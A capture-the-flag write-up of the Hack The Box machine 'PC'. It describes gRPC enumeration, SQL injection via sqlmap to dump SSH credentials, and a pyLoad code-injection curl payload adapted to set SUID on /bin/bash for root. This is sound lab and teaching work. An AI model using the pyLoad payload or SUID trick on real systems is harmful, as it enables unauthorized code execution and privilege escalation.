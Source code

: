 ```yaml
---
title: "Hack The Box - PC [Easy]"
publishedAt: 2023-08-20
description: "HTB Writeup"
isPublish: true
---
```


This machine has only 2 ports open:

```
$ nmap 10.10.11.214 -Pn -p-
22/tcp    open  ssh
50051/tcp open  unknown
```

Using telnet to see what is `50051`, we get:

```
telnet 10.10.11.214 50051
Trying 10.10.11.214...
Connected to 10.10.11.214.
Escape character is '^]'.
?�?� �?^CConnection closed by foreign host.
```
 
Which is some random binary data. I've explored it with `hexdump`.

```
0000000 0000 0418 0000 0000 0000 0004 ff3f 00ff
0000010 0005 ff3f 00ff 0006 2000 fe00 0003 0000
0000020 0001 0400 0008 0000 0000 3f00 0000
000002e
```

I didn't figure out what it was, so I googled the port which led me to this question: https://stackoverflow.com/questions/55990378/i-tried-to-deploy-grpc-go-server-in-docker-and-expose-port-in-local-port-but-p 

I've figured out that this is some `rpc` server. Using `grpcui` we can see the following app structure.

```
$ grpcui -plaintext 10.10.11.214:50051
--- 

SimpleApp.LoginUser {
    username string
    password string
}
SimpleApp.RegisterUser {
    username string
    password string
}
SimpleApp.getInfo {
    id string
}

```

I've used `admin:admin` to login, and I got a token and a data:

```json
{
  "message": "Your id is 80."
}

// token	b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4iLCJleHAiOjE2ODUxODM0MDh9.Hpp12rEGhXQONEN2yi65_NCuMQNN5fnvtJbFhI_PEZk'
```

I've used the `Request Metadata` to send the token when calling the getInfo procedure. 

```
Meta:
token:eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4iLCJleHAiOjE2ODUxODM0MDh9.Hpp12rEGhXQONEN2yi65_NCuMQNN5fnvtJbFhI_PEZk

Data:
id: 80
```

This got me:

```
{
  "message": "Will update soon."
}
```

I have no idea what is happening at this point, and I decided to run `sqlmap` on those requests.

To do that I had to capture the request that is going to the server, I can proxy the UI's requests towards the RPC with `burp`. Start `burp` and intercept the gRPC Web UI and capture the request towards the server. Then save the request to `getInfo` into a file.

Using `sqlmap -r request_file --batch` we can dump the credentials for the user and login with the `ssh`.

Now the root is a bit tricky, I've noticed some processes that are running on port 8000 using `linpeas`. This port is inaccessible, so I had to forward the port to my host using ssh.

```
$ ssh -L 8000:127.0.0.1:8000 sau@10.10.11.214
```

Now I can access it, and it turns out to be pyLoad, searching around I saw this:

https://github.com/advisories/GHSA-pf38-5p22-x6h6
https://github.com/pyload/pyload/commit/7d73ba7919e594d783b3411d7ddb87885aea782d
https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/

Where I can see the following payload

```
curl -i -s -k -X $'POST' \
    -H $'Host: 127.0.0.1:8000' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184' \
    --data-binary $'package=xxx&crypted=AAAA&jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%74%6f%75%63%68%20%2f%74%6d%70%2f%70%77%6e%64%22%29;f=function%20f2(){};&passwords=aaaa' \
    $'http://127.0.0.1:8000/flash/addcrypted2'
```

Decoding the payload on the `jk` param: `pyimport os;os.system("touch /tmp/pwnd");f=function f2(){};`

Now we just have to encode `chmod +s /bin/bash` into `os.system()`. After executing that payload, we can launch bash in privilege mode `bash -p` and I got root.

